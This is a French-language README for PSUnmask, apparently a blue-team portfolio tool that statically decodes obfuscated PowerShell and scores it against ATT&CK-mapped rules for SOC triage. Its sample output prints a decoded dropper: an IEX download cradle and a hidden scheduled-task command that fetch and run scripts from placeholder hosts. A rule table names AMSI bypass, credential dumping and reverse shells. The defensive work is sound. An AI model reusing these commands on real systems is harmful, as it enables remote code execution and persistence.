

# PSUnmask

🇬🇧 [English version](README.md)

**Désobfuscation statique et triage de PowerShell pour analystes SOC.**
Colle une ligne de commande suspecte (ou fournis un export Sysmon / 4688 / 4104) et obtiens le script décodé, chaque couche d'obfuscation, les IOC extraits, le mapping MITRE ATT&CK, le contexte du processus parent et un verdict argumenté.

    

> Décoder, c'est lire. **PSUnmask n'exécute jamais le contenu qu'il analyse.** Aucun `eval`, `exec`, `subprocess` ou `ctypes` dans le paquet, et un test unitaire fait échouer le build si l'un d'eux apparaît.

---

## Pourquoi ce projet

Le PowerShell encodé est l'un des cas les plus fréquents dans la file d'alertes d'un SOC : loaders, cradles sans fichier, outils de red team, mais aussi scripts d'administration légitimes. Le travail de l'analyste est de répondre vite à une question : **malveillant, ou admin, et quelles sont les preuves ?**

PSUnmask transforme le workflow manuel (copier le blob, CyberChef, regarder le processus parent, rédiger le ticket) en une seule commande, selon une méthode en quatre étapes :



| Étape | Ce que fait PSUnmask |
|---|---|
| **Catch it** | Lit Sysmon Event ID 1, Security 4688 et PowerShell 4104 (les script blocks découpés en plusieurs parties sont réassemblés) depuis `.xml`, `.evtx` ou du texte brut |
| **Decode it** | `-e/-ec/-enc/-EncodedCommand` (Base64 UTF-16LE), `FromBase64String` + Deflate/Gzip, concaténation de chaînes, backticks, codes `[char]`, couches imbriquées jusqu'à la profondeur 10 |
| **Trace it** | Note le processus parent (Office, hôtes de scripts, WMI, IIS contre agents SCCM/Intune) et la profondeur d'obfuscation |
| **Call it** | `MALICIOUS` / `SUSPICIOUS` / `LIKELY_BENIGN`, règles déclenchées avec la couche où elles ont été trouvées, IOC defanged, SHA-256 du script final, actions de réponse recommandées |

## Démarrage rapide

```bash
git clone https://github.com/NikoRNK/psunmask.git
cd psunmask
pip install -e .            # zéro dépendance à l'exécution
pip install -e ".[evtx]"    # optionnel : lire directement les .evtx
```

### Décoder une commande

```bash
psunmask decode 'powershell -nop -w hidden -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBi...'
psunmask decode -f suspicious.txt --parent WINWORD.EXE
echo '<blob base64>' | psunmask decode -
```

Sortie réelle sur l'échantillon multi-couches fourni (`samples/layered_dropper.txt` : Base64, puis Deflate, puis chaînes fragmentées) :

```text
[1] MALICIOUS  score 100/100
    parent : C:\Windows\System32\wscript.exe
    CATCH IT  powershell -w hidden -nop -e SQBFAFgAIAAoAFsASQBPAC4AUwB0AHIAZQBhAG0AUgBlAGEAZABlAHIAXQA6ADoAbgBlAHcAKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBDAG8Ab... (+1039 chars)
    DECODE IT original -> -EncodedCommand / Base64 (UTF-16LE) -> FromBase64String (+ inflate) -> string concatenation merge
      | $c = 'DownloadString'; $u = 'http://203.0.113.7/stage2.ps1'; $w = New-Object Net.WebClient; IEX ($w.$c($u)); schtasks /create /tn Updater /tr 'powershell -nop -w hidden -c iex(irm http://update-check.example/r)' /sc hourly
    TRACE IT  +25 parent wscript.exe: Windows Script Host spawned PowerShell; +10 3 obfuscation layers peeled
      - PS001 Encoded command [T1027.010] +10 (layer 0)
      - PS002 Invoke-Expression [T1059.001] +20 (layer 1)
      - PS003 Download cradle [T1105] +30 (layer 2)
      - PS004 Hidden window [T1564.003] +15 (layer 0)
      - PS005 NoProfile / NonInteractive [T1059.001] +5 (layer 0)
      - PS010 Scheduled task persistence [T1053.005] +25 (layer 2)
      - PS015 Staged / compressed payload [T1027] +10 (layer 1)
    IOCs (defanged)
      url: hxxp[://]203[.]0[.]113[.]7/stage2[.]ps1
      url: hxxp[://]update-check[.]example/r
      ip: 203[.]0[.]113[.]7
      domain: update-check[.]example
    CALL IT   MALICIOUS  sha256(final)=b8d62aa44d78673b...

```

### Trier un export de logs

```bash
# Export depuis un hôte Windows (voir docs/lab-setup.md)
wevtutil qe Microsoft-Windows-Sysmon/Operational /q:"*[System[(EventID=1)]]" /f:xml /c:500 > sysmon.xml

psunmask triage sysmon.xml                              # résultats classés dans le terminal
psunmask triage sysmon.xml --markdown report.md         # note d'incident prête pour le ticket
psunmask triage sysmon.xml --json report.json           # sortie structurée pour SOAR / SIEM
psunmask triage sysmon.xml --min-score 50 --fail-on-malicious   # code retour 2 si malveillant
```

Un exemple complet de note d'incident générée est dans [`docs/example-report.md`](docs/example-report.md).

### Utilisation en bibliothèque

```python
from psunmask.analyzer import analyse
from psunmask.models import Event

finding = analyse(Event("demo", command_line=cmdline, parent_image=r"C:\...\WINWORD.EXE"))
print(finding.verdict, finding.score, finding.techniques)
print(finding.result.final)          # script décodé
print(finding.iocs["urls"])          # indicateurs extraits
```

## Couverture de détection

Les règles s'appliquent à **chaque** couche décodée : un cradle caché sous trois couches est quand même trouvé. Les poids s'additionnent (plafonnés à 100), `>= 50` donne `MALICIOUS`, `>= 20` donne `SUSPICIOUS`.

| ID | Detection | Weight | Tactic | ATT&CK |
|----|-----------|-------:|--------|--------|
| PS001 | Encoded command | 10 | Defense Evasion | [T1027.010](https://attack.mitre.org/techniques/T1027/010/) |
| PS002 | Invoke-Expression | 20 | Execution | [T1059.001](https://attack.mitre.org/techniques/T1059/001/) |
| PS003 | Download cradle | 30 | Command and Control | [T1105](https://attack.mitre.org/techniques/T1105/) |
| PS004 | Hidden window | 15 | Defense Evasion | [T1564.003](https://attack.mitre.org/techniques/T1564/003/) |
| PS005 | NoProfile / NonInteractive | 5 | Execution | [T1059.001](https://attack.mitre.org/techniques/T1059/001/) |
| PS006 | Execution policy bypass | 10 | Defense Evasion | [T1059.001](https://attack.mitre.org/techniques/T1059/001/) |
| PS007 | AMSI bypass | 40 | Defense Evasion | [T1562.001](https://attack.mitre.org/techniques/T1562/001/) |
| PS008 | Reflective / in-memory loading | 25 | Defense Evasion | [T1620](https://attack.mitre.org/techniques/T1620/) |
| PS009 | Credential dumping | 50 | Credential Access | [T1003.001](https://attack.mitre.org/techniques/T1003/001/) |
| PS010 | Scheduled task persistence | 25 | Persistence | [T1053.005](https://attack.mitre.org/techniques/T1053/005/) |
| PS011 | Run key persistence | 25 | Persistence | [T1547.001](https://attack.mitre.org/techniques/T1547/001/) |
| PS012 | Defender tampering | 40 | Defense Evasion | [T1562.001](https://attack.mitre.org/techniques/T1562/001/) |
| PS013 | Raw socket / reverse shell | 45 | Command and Control | [T1095](https://attack.mitre.org/techniques/T1095/) |
| PS014 | Inhibit system recovery | 50 | Impact | [T1490](https://attack.mitre.org/techniques/T1490/) |
| PS015 | Staged / compressed payload | 10 | Defense Evasion | [T1027](https://attack.mitre.org/techniques/T1027/) |
| PS016 | WMI remote execution | 20 | Execution | [T1047](https://attack.mitre.org/techniques/T1047/) |
| PS017 | Exfiltration primitives | 25 | Exfiltration | [T1041](https://attack.mitre.org/techniques/T1041/) |


Signaux de contexte : parents suspects (Office +30, hôtes de scripts / LOLBins +25, IIS +40), parents agents de gestion (SCCM / Intune -15), 3 couches d'obfuscation ou plus (+10), payload non textuel décodé (+20). `psunmask rules` liste le tout.

## Detection engineering

Un triage ne sert qu'une fois. Chaque résultat nourrit une détection :

- [`rules/`](rules) : règles Sigma (commande encodée, Office lance PowerShell, cradle dans le Script Block Logging)
- [`detections/splunk.spl`](detections/splunk.spl) et [`detections/kql.kql`](detections/kql.kql) : requêtes de hunting pour Splunk et Defender XDR / Sentinel
- [`docs/detection-engineering.md`](docs/detection-engineering.md) : checklist de tuning et conversion Sigma

## Documentation

| Doc | Contenu |
|---|---|
| [`docs/investigation-playbook.md`](docs/investigation-playbook.md) | Méthode Catch / Decode / Trace / Call, aide-mémoire des processus parents, modèle de ticket |
| [`docs/lab-setup.md`](docs/lab-setup.md) | Sysmon, Script Block Logging, audit 4688, télémétrie de test inoffensive dans une VM isolée |
| [`docs/detection-engineering.md`](docs/detection-engineering.md) | De l'analyse à Sigma, SPL et KQL |

Les docs sont en anglais, comme le code et les règles.

## Structure du projet

```text
psunmask/
  decoder.py       primitives Base64 / UTF-16LE / inflate (garde anti-bombe, plafond 10 Mo)
  deobfuscate.py   moteur de dépilage des couches
  rules.py         détections mappées ATT&CK + contexte du processus parent
  analyzer.py      score, verdict, enrichissement IOC
  iocs.py          extraction URL / IP / domaine / registre / chemin + defanging
  parsers.py       Sysmon 1, 4688, 4104 (XML, EVTX, texte)
  report.py        console, Markdown, JSON
  cli.py           decode | triage | rules
rules/             règles Sigma
detections/        Splunk SPL, KQL
samples/           télémétrie synthétique (IP RFC 5737, domaines .example)
tests/             33 tests dont une garde AST interdisant les primitives d'exécution
tools/make_samples.py   régénère les échantillons
```

## Conception sécurisée

- **Statique uniquement.** Aucune évaluation de PowerShell, aucun processus lancé, aucun accès réseau. Garanti par `tests/test_never_executes.py`.
- **Bombes de décompression** plafonnées à 10 Mo par couche ; profondeur de couches plafonnée.
- **Hygiène XML.** Les DTD et entités dans les fichiers d'événements sont rejetées.
- **Sortie defanged.** Les IOC s'affichent sous la forme `hxxp[://]198[.]51[.]100[.]23` pour éviter tout clic accidentel.
- **Échantillons synthétiques et non fonctionnels** : plages d'IP de documentation et domaines `.example` uniquement.

## État de validation et limites

Soyons explicites, l'honnêteté compte dans ce métier :

- Validé sur des **échantillons synthétiques** et des tests unitaires construits à partir des techniques ci-dessus. **Pas** testé sur un grand corpus de malwares réels : des lacunes sont à prévoir.
- Basé sur des regex, pas sur un AST PowerShell. Non géré pour l'instant : l'opérateur de format `-f`, les chaînes `-replace`, l'inversion de chaînes, les payloads `SecureString`, les boucles XOR, les cradles par indirection de variables.
- Les scores sont des heuristiques pour **prioriser l'attention de l'analyste**, pas pour remplacer son jugement. Un verdict `LIKELY_BENIGN` n'est pas un blanc-seing.
- Les règles sont calibrées pour le bruit d'entreprise générique : ajoute tes propres outils de gestion en liste d'autorisation.

## Feuille de route

- [ ] Désobfuscation par AST (opérateur de format, `-replace`, inversion, XOR)
- [ ] Corrélation Sysmon 3 / 11 / 13 par `ProcessGuid` (réseau, fichiers, persistance)
- [ ] Ingestion JSONL / exports Elastic / Splunk
- [ ] Sortie YARA pour les payloads stage 2 décodés
- [ ] Enrichissement VirusTotal / MISP (optionnel, recherche par hash et IOC uniquement)

## Développement

```bash
pip install -e ".[dev]"
pytest -q
ruff check psunmask
python tools/make_samples.py     # régénère les échantillons
```

La CI lance les tests sur Python 3.9 à 3.12 et teste les échantillons fournis.

## Références

- MITRE ATT&CK : [T1059.001 PowerShell](https://attack.mitre.org/techniques/T1059/001/), [T1027.010 Command Obfuscation](https://attack.mitre.org/techniques/T1027/010/), [T1105 Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)
- Microsoft : PowerShell Script Block Logging, AMSI
- Sysmon (Sysinternals), format de règles Sigma, CyberChef

## Licence

MIT. Réalisé par Nikola Rankovic comme projet de portfolio blue team (parcours analyste SOC, cybersécurité).
